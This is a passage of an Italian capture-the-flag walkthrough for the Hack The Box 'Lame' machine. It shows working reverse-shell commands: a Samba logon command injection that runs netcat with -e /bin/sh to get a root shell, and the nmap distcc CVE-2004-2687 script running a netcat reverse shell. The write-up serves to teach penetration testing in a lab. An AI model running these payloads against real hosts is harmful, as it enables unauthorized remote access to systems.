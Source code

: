 ```bash
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687

Nmap done: 1 IP address (1 host up) scanned in 0.73 seconds
                                                              
```

E'venerabile ma ci torniamo dopo

# EXPLOITATION

## 1. Samba

Ci mettiamo in ascolto con il classico nc -nvlp
```bash
┌──(root㉿kali)-[/home/kali/htb/lame]
└─# nc -nvlp 4444
listening on [any] 4444 ...
```

Ci collegiamo con smbclient (// per colleargsi ), e seguiamo le indicazione dell exploit
```bash
┌──(root㉿kali)-[/home/kali/htb/lame]
└─# smbclient //10.10.10.3/tmp
Password for [WORKGROUP\root]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "/=`nohup nc -nv 10.10.14.39 4444 -e /bin/sh`"
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> 
``````

Otteniamo cosi una shell con privilegi da root
```bash
┌──(root㉿kali)-[/home/kali/htb/lame]
└─# nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.10.3] 37753
```

## 2. Distcc

Abbimamo visto in precedenza che c'è un scipt nmap distcc.cve2004-2687 che ci permette 
di esegurire del codice, quindi come prima ci mettiamo un ascolto sempre con nc e eseguiamo:
```bash

nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.39 4444 -e /bin/bash'"
```
Otteniamo cosi una shell con bassi privilegi 

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 4444                                     
listening on [any] 4444 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.10.3] 42871
whoami
daemon
```
